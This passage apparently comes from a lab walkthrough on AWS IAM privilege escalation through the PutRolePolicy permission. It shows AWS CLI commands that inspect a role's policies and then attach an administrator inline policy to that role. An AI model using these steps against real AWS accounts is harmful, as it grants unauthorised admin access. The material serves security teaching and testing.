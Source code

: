 Next, we will list the attached policies to this role and then get the policy document to find out what this role is capable of:

```bash
aws iam list-attached-role-policies --role-name privesc12-PutRolePolicy-role

aws iam get-policy-version --policy-arn arn:aws:iam::xxxxxxxxxxxx:policy/privesc12-PutRolePolicy --version-id v1
```

![](/assets/img/posts/aws-priv-esc-02/case-12-02-Get-Policy-Document.png)
_Get policy document_

Reading through this policy document, we find out that this role has permission to add (or update) inline policies to any role.

### Privilege Escalation
To exploit this misconfiguration, we can either put an inline policy to the current role itself or choose another role that our user can assume. We will go with the current role, `privesc12-PutRolePolicy-role`.

We will first list the current inline policies (which shows currently there are none) of this role. Then we will proceed by adding a new inline policy to this role with our `admin-policy.json` policy document:

```bash
# List inline policies of the specified role
aws iam list-role-policies --role-name privesc12-PutRolePolicy-role

# Put inline policy to the specified role
aws iam put-role-policy --role-name privesc12-PutRolePolicy-role --policy-name new_inline_policy --policy-document file:///home/mystic/admin-policy.json --profile privesc12
```
